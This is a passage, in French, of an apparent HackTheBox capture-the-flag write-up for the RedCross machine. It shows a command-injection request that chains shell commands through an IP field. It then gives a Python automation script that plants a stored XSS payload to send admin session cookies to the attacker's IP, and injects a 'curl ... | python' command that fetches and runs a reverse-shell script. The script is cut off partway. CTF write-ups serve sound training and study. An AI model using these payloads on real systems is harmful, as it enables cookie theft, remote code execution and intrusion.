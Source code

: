 En mode *deny* en revanche aucune vérification ne semble être faite. On insère alors un point virgule pour clôturer la commande précédente et on met un point virgule en fin pour que nos commandes n'aient pas d'arguments invalides.  

J'ai remarqué que d'après l'output obtenu la dernière commande insérée semble exécutée deux fois :-/ Par conséquent j'ai préféré mettre la commande inoffensive *date* en bout de chaîne.  

La requête à envoyer sera de cette forme :  

```plain
POST https://admin.redcross.htb/pages/actions.php HTTP/1.1
ip=8.8.8.8;id;uname -a;pwd;date;&id=17&action=deny
```

![HackTheBox CTF RCE in IP management](https://github.com/devl00p/blog/raw/master/images/htb/redcross/redcross_zap_rce.png)

Puisque la machine est susceptible d'être réinitialisée j'ai écrit un script pour automatisuer toute cette première partie : envoyer le XSS via le formulaire de contact et injecter ensuite une commande download-execute dans l'interface admin :  

```python
from subprocess import check_output
from time import sleep
import re

import requests

output = check_output(["ifconfig", "tun0"], encoding="utf-8")
ip = re.search("inet (\d+\.\d+\.\d+\.\d+)", output).group(1)
print("Your IP is {}.".format(ip))

sess = requests.session()
response = sess.post(
    "https://intra.redcross.htb/pages/actions.php",
    data={
        "action": "contact",
        "body": "username=yolo",
        "cback": """<script>var img=document.createElement("img");img.src="http://{}/?"+encodeURI(document.cookie);document.body.appendChild(img);</script>""".format(ip),
        "subject": "credentials please"
    },
    verify=False
)
print(response.text)

sess_id = input("please enter session ID:").strip()
response = requests.post(
    "https://admin.redcross.htb/pages/actions.php",
    data={
        "ip": "8.8.8.8;curl http://{}/tcp_pty_backconnect.py|python;date;".format(ip),
        "id": "17",
```